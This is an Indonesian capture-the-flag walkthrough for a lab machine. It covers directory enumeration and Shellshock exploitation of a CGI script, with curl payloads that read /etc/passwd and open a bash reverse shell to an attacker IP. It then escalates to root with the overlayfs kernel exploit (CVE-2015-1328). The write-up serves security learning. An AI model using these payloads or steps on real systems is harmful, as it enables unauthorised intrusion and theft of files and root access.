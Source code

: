 enumerasi menggunakan nmap / rustscan

enumerasi direktori
```bash
301   311B   http://10.10.126.29/admin    -> REDIRECTS TO: http://10.10.126.29/admin/
200     0B   http://10.10.126.29/admin/
200     0B   http://10.10.126.29/admin/index.html
301   312B   http://10.10.126.29/backup    -> REDIRECTS TO: http://10.10.126.29/backup/
200     1KB  http://10.10.126.29/backup/
301   313B   http://10.10.126.29/cgi-bin    -> REDIRECTS TO: http://10.10.126.29/cgi-bin/
403   287B   http://10.10.126.29/cgi-bin/
200    13B   http://10.10.126.29/cgi-bin/test.cgi
301   309B   http://10.10.126.29/css    -> REDIRECTS TO: http://10.10.126.29/css/
301   309B   http://10.10.126.29/img    -> REDIRECTS TO: http://10.10.126.29/img/
200   451B   http://10.10.126.29/js/
200    38B   http://10.10.126.29/robots.txt
301   312B   http://10.10.126.29/secret    -> REDIRECTS TO: http://10.10.126.29/secret/
200    97B   http://10.10.126.29/secret/
403   292B   http://10.10.126.29/server-status
403   293B   http://10.10.126.29/server-status/
301   313B   http://10.10.126.29/uploads    -> REDIRECTS TO: http://10.10.126.29/uploads/
200     0B   http://10.10.126.29/uploads/
```

cgi-bin sepertinya bisa dimanfaatkan untuk [shellshock](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock).
```
curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/cat /etc/passwd;" http://10.10.126.29/cgi-bin/test.cgi
```
kita dapat memanfaatkannya untuk mendapatkan revshell, namun sebelumnya siapkan listener, selanjutnya gunakan
```
curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.8.15.121/2222 0>&1';" http://10.10.126.29/cgi-bin/test.cgi
```
dan kita mendapat revshell sekaligus bisa langsung membaca flag user di `/home/ryan`.

Namun disini kita masih sebagai www-data, jika kita enumerate dengan linpeas.sh, hal yang paling di highlight adalah kernel version, yaitu 3.13.0-32-generic.
```bash
╔══════════╣ Operative system                                                                             
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                        
Linux version 3.13.0-32-generic (buildd@kissel) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #57-Ubuntu S
MP Tue Jul 15 03:51:08 UTC 2014                                                                           
Distributor ID: Ubuntu                                                                                    
Description:    Ubuntu 14.04.1 LTS
```
vulnerability ini disebut `overlayfs`, dimana linux kernel sebelum 3.19.0-21.21 tidak memeriksa permission untuk file creation dengan baik di upper filesystem directory, yang mana membuat local user bisa mendapatkan akses root dengan leverage konfigurasi dimana overlayfs diizinkan dalam arbitrary mount namespace. (source: [NVD.NIST.GOV](https://nvd.nist.gov/vuln/detail/CVE-2015-1328))

kita dapat menggunakan exploit [ini](https://www.exploit-db.com/exploits/37292), lalu mengirimkannya ke target. Selanjutnya di target, kita bisa compile dengan gcc
```bash
gcc file.c -o privesc && ./privesc
```
namun daripada berhasil, kita malah mendapat error
```bash
gcc: error trying to exec 'cc1': execvp: No such file or directory
```
hal ini terjadi karena `PATH` environment dalam target tidak seperti seharusnya, kita dapat mengubahnya dengan cara
```bash
# sebelum
echo $PATH
/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.

#sesudah
export PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin
```
dan kita bisa ulang compilenya lagi, dan kali ini akan berhasil untuk compile serta leverage ke user root. Kita dapat melihat flag root di `/root/root.txt`
